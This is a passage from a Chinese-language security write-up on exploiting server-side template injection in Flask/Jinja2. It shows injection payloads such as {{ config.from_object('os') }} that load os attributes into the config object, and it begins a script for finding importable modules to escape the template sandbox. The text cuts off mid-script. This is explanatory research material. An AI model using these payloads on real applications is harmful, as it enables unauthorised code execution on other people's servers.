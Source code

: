```
    try:
        try:
            __import__(import_name)
        except ImportError:
            if '.' not in import_name:
                raise
        else:
            return sys.modules[import_name]    

        module_name, obj_name = import_name.rsplit('.', 1)
        try:
            module = __import__(module_name, None, None, [obj_name])
        except ImportError:
            # support importing modules not yet set up by the parent module
            # (or package for that matter)
            module = import_string(module_name)    

        try:
            return getattr(module, obj_name)
        except AttributeError as e:
            raise ImportError(e)    

    except ImportError as e:
        if not silent:
            reraise(
                ImportStringError,
                ImportStringError(import_name, e),
                sys.exc_info()[2])

```

对于新加载的模块，`from_object`方法会将那些变量名全是大写的属性添加到`config`对象中。其中有趣的地方就是，添加到`config`对象的属性会保持原有的类型，这意味着通过`config`对象，我们可以从模板内容中调用添加的函数。为了证明这一点，我们使用SSTI漏洞注入`{{ config.items() }}`，可以看到当前的整个配置选项。

![](http://drops.javaweb.org/uploads/images/ded43a35613f33a4fd9633f469245e4b4bda2fb5.jpg)

再注入`{{ config.from_object('os') }}`，这下就会在`config`对象中添加那些在`os`库中变量名全是大写的属性。再次注入`{{ config.items() }}`，就可以发现新的配置选项。同样也需要注意这些配置选项的类型。

![](http://drops.javaweb.org/uploads/images/95483db32a64a11d360d0372913cc7532c9b7121.jpg)

现在通过SSTI漏洞，我们可以调用添加到`config`对象中的任何可调用对象。下一步就是寻找可导入模块的相关功能，再加以利用逃逸出模板沙盒。

以下的脚本复制了`from_object`和`import_string`的功能，并分析整个Python标准库中可导入的项目。

```
#!/usr/bin/env python    

from stdlib_list import stdlib_list
import argparse
import sys    

def import_string(import_name, silent=True):
    import_name = str(import_name).replace(':', '.')
    try:
        try:
            __import__(import_name)
        except ImportError:
            if '.' not in import_name:
                raise
        else:
            return sys.modules[import_name]    

        module_name, obj_name = import_name.rsplit('.', 1)
        try:
```